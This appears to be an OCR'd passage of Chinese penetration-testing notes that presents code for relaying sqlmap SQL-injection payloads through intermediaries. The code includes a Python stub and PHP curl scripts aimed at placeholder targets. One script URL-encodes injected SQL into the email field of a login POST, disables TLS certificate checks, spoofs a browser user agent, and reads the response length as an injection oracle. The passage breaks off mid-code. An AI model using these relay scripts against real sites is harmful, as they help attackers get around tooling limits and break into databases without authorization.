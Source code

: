 ```python
def index():
    # 接收sqlmap传递过来的payload
    payload = request.args.get("payload")
    return send(payload)

if __name__ == "__main__":
    app.run()
```

**用PHP做中转注入**
```php
<?php
//先开启php.ini 中的extension=php_curl.dll
set_time_limit(1);
$curl = curl_init();//初始化curl
$id = $_GET['id'];
//替换id空格和=
$id = str_replace(" ","%20",$id);
$id = str_replace("=","%3D",$id);
$url = "http://xxx.com/aaa.php";
// 设置目标URL  
curl_setopt($curl, CURLOPT_URL, $url);     
// 设置header   
curl_setopt($curl, CURLOPT_HEADER, 0);    
// 设置cURL 参数，要求结果保存到字符串中还是输出到屏幕上。   
curl_setopt($curl, CURLOPT_RETURNTRANSFER, 0);    
// 运行cURL，请求网页   
$data = curl_exec($curl);   
// 关闭URL请求   
curl_close($curl);
?>
```

**sqlmap不能忽略证书，跑不了https的网站**
```php
<?php
$url = "https://x.x.x.x/aaa.php";
$sql = $_GET[arg];
$s = urlencode($sql);
$params = "email=$s&password=aa";

//写出到文件分析.
$fp=fopen('result.txt','a');
fwrite($fp,'Params:'.$params."\n");
fclose($fp);

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, FALSE); // https请求 不验证证书和hosts
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, FALSE);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); 
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_USERAGENT, 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0');
curl_setopt($ch, CURLOPT_TIMEOUT, 15);

curl_setopt($ch, CURLOPT_POST, 1);    // post 提交方式
curl_setopt($ch, CURLOPT_POSTFIELDS, $params);

$output = curl_exec($ch);
curl_close($ch);
$a = strlen($output);

if($a==2846){
```